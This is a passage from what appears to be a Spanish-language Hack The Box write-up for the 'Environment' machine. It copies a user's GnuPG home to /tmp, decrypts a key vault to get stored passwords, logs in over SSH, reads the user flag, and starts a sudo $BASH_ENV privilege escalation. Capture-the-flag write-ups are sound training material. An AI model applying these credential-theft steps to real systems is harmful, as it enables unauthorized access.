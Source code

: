Para solucionar este problema, podemos simplemente copiar el directorio `.gnupg` a otro donde tengamos permisos de escritura, por ejemplo `/tmp`

~~~ bash
bash-5.2$ cp -r /home/hish/.gnupg/ /tmp/.gnupg
~~~

Ahora podremos usar tanto la flag `--home` como la variable de entorno `HOME` sobre el comando `gpg` para descifrar el archivo `keyvault.gpg`

~~~ bash
bash-5.2$ HOME=/tmp gpg -d /home/hish/backup/keyvault.gpg 
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
~~~

Vemos las credenciales para el usuario `hish`, donde la segunda en teoría corresponde a la máquina (`ENVIRONMENT.HTB -> marineSPm@ster!!`)


## Shell as `hish`

Nos conectaremos proporcionando las credenciales que encontramos

~~~ bash
ssh hish@environment.htb
hish@environment.htb\'s password: 
...
...
...
-bash-5.2$ whoami
hish

~~~

Ya podremos ver la flag el usuario sin privilegios (aunque con `www-data` también podíamos)

~~~ bash
-bash-5.2$ cat user.txt 
4c4...
~~~
<br>


# Escalada de Privilegios
---
## Abusing Sudoers Privileges - `$BASH_ENV`

Al listar privilegios a nivel de `sudoers`, veremos que podemos ejecutar lo que parece ser un binario llamado `systeminfo`
